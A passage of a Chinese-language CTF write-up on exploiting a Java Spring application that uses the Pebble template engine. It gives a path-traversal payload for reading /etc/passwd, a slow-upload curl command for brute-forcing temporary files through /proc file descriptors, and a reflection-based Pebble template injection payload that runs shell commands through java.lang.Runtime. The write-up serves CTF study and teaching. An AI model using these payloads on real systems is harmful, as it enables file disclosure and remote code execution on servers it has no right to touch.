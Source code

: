 注意到application.properties有pebble的配置，没有设置后缀suffix

```
pebble.prefix = templates
pebble.suffix =
```

打断点（这里直接断不好断，它调用完pebble相关的库之后不会留在调用栈里，直接就到了spring）

![image-20220907100712037](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20220907100712037.png)

在com.mitchellbosecke.pebble.loader.FileLoader#getFile处有路径拼接的地方，对templateName无过滤拼到`templates/`后面，可以目录穿越（没有设置后缀的原因）

```
/?x=../../../../../../../../../../../etc/passwd
```

### 文件上传

但是flag需要rce才能读到，我们考虑上传带有恶意内容的模板文件到服务器，结合这个LFI进行rce；如何上传文件呢？由于题目用到了spring mvc（内含tomcat），框架本身是支持文件上传功能的

在org.springframework.web.servlet.DispatcherServlet#doDispatch中有处理表单请求的地方

![image-20220907103238423](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20220907103238423.png)

可以看到最后调用到org.apache.catalina.connector.Request#getParts去解析内容，这部分tomcat文件上传流量层面的东西Y4师傅已经研究过了（非常非常强！）->[探寻Tomcat文件上传流量层面绕waf新姿势](https://y4tacker.github.io/2022/06/19/year/2022/6/探寻Tomcat文件上传流量层面绕waf新姿势/)  |  [探寻Java文件上传流量层面waf绕过姿势系列二](https://y4tacker.github.io/2022/06/21/year/2022/6/探寻Java文件上传流量层面waf绕过姿势系列二/)

类似php，这里上传文件会被保存到一个临时目录再复制到目标文件夹，起初路径在javax.servlet.MultipartConfigElement#getLocation中获取，默认为空，会使后面的location从javax.servlet.context.tempdir中获取

![image-20220907105829293](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20220907105829293.png)

是一个随机生成的文件夹，甚至最后的文件名也是靠getUniqueId生成的，无法爆破

但是得益于linux下的文件描述符，我们可以爆破它；甚至于因为题目处于docker环境之下，我们可以直接冲`/proc/1/fd/$X$`

```
curl --limit-rate 1k -X POST http://10.10.1.100:8882 -F "file=@/tmp/1.txt"
```

*但是我这里因为环境问题总是爆不出来？用`/proc/1`是不行的 emmmmm暂时不清楚原因

### 模板注入

之后就是pebble模板注入的事情了，但是目标环境是最新版的，修复了之前的问题

测试payload（文件名t1）

```
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```
